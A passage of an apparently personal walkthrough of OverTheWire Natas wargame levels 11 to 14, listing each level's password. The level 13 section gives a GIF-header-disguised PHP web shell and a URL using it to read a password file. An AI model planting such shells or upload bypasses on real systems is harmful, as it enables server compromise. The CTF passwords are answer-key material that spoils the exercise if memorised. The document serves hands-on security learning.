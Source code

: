 Level url: [http://natas11.natas.labs.overthewire.org/](http://natas11.natas.labs.overthewire.org/)

**Steps to Solve**
Take a look at:
- https://learnhacking.io/overthewire-natas-level-11-walkthrough/

**Next Level Password**

`yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`

---

## Natas Level 12 → Level 13
(Updated: 13 August 2025)

**Credentials**
- **Username:** `natas12`
- **Password:** `yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB`

**Connection**

Level url: [http://natas12.natas.labs.overthewire.org/](http://natas12.natas.labs.overthewire.org/)

**Steps to Solve**
Take a look at:
- https://learnhacking.io/overthewire-natas-level-12-walkthrough/

**Next Level Password**

`trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

---

## Natas Level 13 → Level 14
(Updated: 13 August 2025)

**Credentials**
- **Username:** `natas13`
- **Password:** `trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC`

**Connection**

Level url: [http://natas13.natas.labs.overthewire.org/](http://natas13.natas.labs.overthewire.org/)

**Steps to Solve**
1. Step 1 - Just like the previous level we have to use the image uploading to access to shell and `cat` the password. However, this level has blocked `.php` file (or others that isn't image).
2. Step 2 - Create a `shell.php` with this content:
```php
GIF87a<?php echo shell_exec($_GET['e'].' 2>&1'); ?>
```
- `GIF87`: is a magic header that maked the server thinks this is a `.gif` file (but it is a `.php`).
3. Step 3 - Use `DevTools` and change the exec type of the uploaded file to `.php`.
4. Step 4 - Upload the `shell.php` we created and access to [http://natas13.natas.labs.overthewire.org/upload/rn81hkpyec.php?e=cat%20/etc/natas_webpass/natas14](http://natas13.natas.labs.overthewire.org/upload/rn81hkpyec.php?e=cat%20/etc/natas_webpass/natas14) to get the password.
5. Step 5 - Take the password to the next level.

**Next Level Password**

`z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ`
